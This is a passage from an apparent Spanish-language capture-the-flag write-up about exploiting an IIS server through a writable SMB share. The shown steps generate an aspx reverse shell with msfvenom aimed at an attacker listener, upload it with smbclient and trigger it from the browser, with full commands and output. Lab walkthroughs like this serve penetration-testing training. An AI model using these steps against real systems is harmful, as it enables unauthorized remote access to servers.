 ![passwords](passwords.png)

Al comprobar que es posible acceder al recurso, se evidencia que el servidor web utiliza en realidad el mismo directorio que el recurso compartido SMB.

Este hallazgo nos acerca más al objetivo de acceder al sistema, ya que hemos descubierto una posible vía para subir una shell inversa y obtener acceso inicial al servidor. Con el fin de probar esta hipótesis, podemos utilizar el comando **put** para subir un archivo de prueba al recurso compartido SMB.

```bash
smb: \> put test.txt 
putting file test.txt as \test.txt (0,0 kb/s) (average 0,0 kb/s)
```

Una vez subido el archivo al servidor, intentamos acceder a él a través del navegador web.

![test](test.png)

Como se puede observar, hemos confirmado la posibilidad de subir y leer archivos en el servidor, lo cual nos permite utilizar una reverse shell para obtener acceso a la máquina. Dado que el servidor es un IIS, es común utilizar el formato `.aspx` para atacar servidores IIS. Por lo tanto, procedemos a crear un payload con extensión `.aspx` mediante la herramienta `MSF Venom`, utilizando el siguiente comando:

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.11.100 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3419 bytes
```

Una vez que hemos creado el payload, lo subimos al servidor mediante el mismo proceso que usamos para subir el archivo de prueba.

```bash
❯ smbclient //10.10.95.131/nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> put shell.aspx
putting file shell.aspx as \shell.aspx (1,8 kb/s) (average 1,8 kb/s)
smb: \> ls
  .                                   D        0  Mon Apr  3 20:14:04 2023
  ..                                  D        0  Mon Apr  3 20:14:04 2023
  passwords.txt                       A       98  Sat Jul 25 10:15:33 2020
  shell.aspx                          A     3419  Mon Apr  3 20:14:06 2023
  test.txt                            A        5  Mon Apr  3 20:01:57 2023

		7735807 blocks of size 4096. 4945288 blocks available
```

Después de cargar el payload al servidor, nos ponemos en escucha en el puerto especificado en el payload (443) y lo ejecutamos desde el navegador mediante la dirección completa `http://10.10.95.131:49663/nt4wrksv/shell.aspx`.
